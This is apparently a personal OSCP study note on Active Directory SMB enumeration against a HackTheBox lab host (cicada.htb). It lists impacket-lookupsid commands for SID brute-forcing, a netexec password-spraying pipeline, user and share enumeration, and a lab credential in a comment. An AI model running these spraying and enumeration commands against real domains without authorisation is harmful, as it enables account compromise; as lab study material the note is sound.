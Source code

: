 Also check out:

https://github.com/nestef23/my-OSCP-notes/blob/main/Reconnaissance/SMB%20-%20445.md

## lookupsid
lookupsid.py
### Enumerate users
https://github.com/fortra/impacket/blob/master/examples/lookupsid.py

This tool will try brute forcing Windows Security Identifiers (SIDs) of any users in the AD domain.

To enumerate the domain, we can specify the `guest` user, the domain name, and `-no-pass` for no password. 
```
# No pass
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass
impacket-lookupsid support@cicada.htb -no-pass

# Known pass
impacket-lookupsid user.name@cicada.htb
```

## netexec
### Password spraying
In this scenario we want to perform password spraying with a known password.
1. Gett all usernames
2. Try the password against all of them
```
impacket-lookupsid support@cicada.htb -no-pass | grep 'SidTypeUser' | sed 's/.*\\\(.*\) (SidTypeUser)/\1/' > users.txt

cat users.txt

netexec smb cicada.htb -u users.txt -p '<password>'
```
### Enumerate users
Must have user credentials.
This will show "description" field from the AD.
```
# netexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
netexec smb <domain> -u <user> -p '<password>' --users
```
### Enumerate shares
Must have user credentials.
This will show user permissions to each share
```
netexec smb <domain> -u <user> -p '<password>' --shares
```
